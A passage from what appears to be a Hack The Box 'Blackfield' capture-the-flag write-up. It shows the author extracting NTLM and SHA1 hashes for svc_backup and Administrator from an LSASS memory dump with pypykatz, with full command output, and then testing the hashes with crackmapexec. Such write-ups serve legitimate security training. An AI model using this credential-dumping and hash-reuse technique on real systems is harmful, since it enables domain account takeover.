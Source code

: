 ### Extracting hashes

LSASS stands for Local Security Authority Subsystem Service in Windows is used to handle authentication and security policies and stores authentication data in its memory space.

```shell
cfx:  ~/Documents/htb/blackfield
→ unzip lsass.zip
Archive:  lsass.zip
  inflating: lsass.DMP

cfx:  ~/Documents/htb/blackfield
→ file lsass.DMP
lsass.DMP: Mini DuMP crash report, 16 streams, Sun Feb 23 18:02:01 2020, 0x421826 type
```
Basically `Mimikatz` is used to extract credentials from lsass dump but on linux we can use [**pypykatz**](https://github.com/skelsec/pypykatz) a python implemention of Mimikatz.

```shell
cfx:  ~/Documents/htb/blackfield
→ pypykatz lsa minidump lsass.DMP
INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[..SNIP..]
== LogonSession ==
authentication_id 153705 (25869)
session_id 1
username Administrator
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T17:59:04.506080+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-500
luid 153705
        == MSV ==
                Username: Administrator
                Domain: BLACKFIELD
                LM: NA
                NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
                SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368

```
Out of all NTLM hashes discovered from lsass DUMP, interesting were `svc_backup` and `Administrator`, I ran crackmapexec against each of them but unfortunately hash for Administrator didn't work, probably the password was changed after the dump was generated.

